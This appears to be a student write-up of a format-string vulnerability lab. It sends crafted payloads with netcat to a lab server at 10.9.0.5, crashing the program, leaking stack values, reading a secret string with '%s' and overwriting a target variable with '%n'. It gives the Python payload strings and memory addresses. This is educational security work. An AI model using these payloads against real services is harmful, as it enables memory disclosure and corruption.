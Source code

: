 # Task 1

We used the "%s" format specifier to force the program to interpret a value as an address which was not valid, thus crashing the program.

Command used:
``` bash
echo %s | nc 10.9.0.5 9090
```

# Task 2
From now on we used build_string.py to construct the attack string and inputed it with the following command:
``` bash
cat badfile | nc 10.9.0.5 9090
```

## 2.a

Through trial and error we found that we needed to use "%x" 64 times until the last value to be printed was the one specified in the first 4 bytes of our input.

String s was constructed with:
``` py
s = "\n" + "0x%.8x\n" * 64
```

## 2.b

To print the secret message we discovered the memory position at which the message was being stored through the program's own printout (0x080b4008).
We changed the first 4 bytes of the input to this value and the 64th "%x" to "%s" so printf() would print the string stored at this position.

String s was contructed with:
```py
s = "\n" + "0x%.8x\n" * 63 + "%s\n"
```

The secret message was:
```
A secret message
```

# Task 3

## 3.a

We used the program's output to find the memory position of the target variable (0x080e5068). We changed the first 4 bytes of the input to this value and changed "%s" to  "%n" to store the number of characters printed so far at that value, changing it.

String s was contructed with:
```py
s = "\n" + "0x%.8x\n" * 63 + "%n\n"
```

## 3.b

To change the value stored in the target value we just needed to change the amount of characters printed before using "%n".

String s was constructed with:
```py
s = "\n" + "0x%.322x\n" * 63 + "%n\n"
```
